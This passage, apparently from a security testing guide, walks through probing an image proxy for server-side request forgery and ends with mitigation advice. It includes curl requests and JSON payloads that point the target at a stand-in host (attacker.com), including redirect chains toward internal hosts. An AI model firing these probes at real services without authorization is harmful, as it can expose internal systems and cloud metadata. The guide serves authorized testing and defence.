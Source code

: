        {"url": "http://attacker.com/malicious.jpg"}
       ```
   - **Using cURL**:
     ```bash
     curl -X GET "https://example.com/image?url=http://attacker.com/malicious.jpg"
     ```
     or
     ```bash
     curl -X POST -H "Content-Type: application/json" -d '{"url":"http://attacker.com/malicious.jpg"}' https://example.com/api/image/fetch
     ```

4. **Monitor the Controlled Server**:
   - Check the server logs for incoming requests from the target server’s IP.
   - Example log from Python server:
     ```
     192.168.1.100 - - [26/Jun/2025 10:34:12] "GET /malicious.jpg HTTP/1.1" 200 -
     ```
   - If using webhook.site, check the dashboard for request details (e.g., headers, user-agent).

5. **Analyze the Response**:
   - **Success Case**: If the proxy fetches the file and returns it (or your server logs a request), it confirms SSRF. For example:
     - The proxy returns the content of `malicious.jpg`.
     - Your server logs a GET request from the target server.
   - **Failure Case**: If no request reaches your server or the proxy returns an error (e.g., “Invalid URL”), it may validate URLs, but test with variations (e.g., HTTPS, subdomains like `sub.attacker.com`).

6. **Additional Tests**:
   - Test with different file types (e.g., `http://attacker.com/evil.php`) to check for execution or MIME-type issues.
   - Use a URL with query parameters (e.g., `http://attacker.com/log?data=test`) to log additional data.
   - Try redirect chains (e.g., `http://attacker.com/redirect?to=http://internal.com`) to test if the proxy follows redirects to internal resources.

### Expected Outcome
- **Vulnerable**: The proxy sends a request to your server, confirming it fetches arbitrary external URLs without validation. This could be used to interact with internal or external systems.
- **Not Vulnerable**: No request reaches your server, or the proxy rejects the URL, indicating validation (e.g., allowlist of domains).

### Risks
- Attackers can use the proxy to send requests to arbitrary servers, potentially bypassing firewall rules.
- Combined with internal URL access, this could lead to data exfiltration or interaction with internal services.

## Mitigation Recommendations
- **Validate URLs**: Implement an allowlist for permitted domains and reject internal IPs (e.g., `127.0.0.1`, `169.254.169.254`).
- **Restrict Protocols**: Allow only `https` and block `http`, `file`, or other protocols.
- **Rate Limiting**: Enforce rate limits on proxy requests to prevent abuse.
- **Disable Redirects**: Prevent the proxy from following HTTP redirects to untrusted domains.
- **Cloud Metadata Protection**: Block access to cloud metadata endpoints (e.g., `169.254.169.254`) at the network or application level.

## Notes
- Always test ethically and within the scope of authorized testing.
- For cloud metadata SSRF, report findings immediately, as they can lead to severe compromise.
- If the proxy returns images, use tools like `exiftool` to inspect metadata for additional leaks.


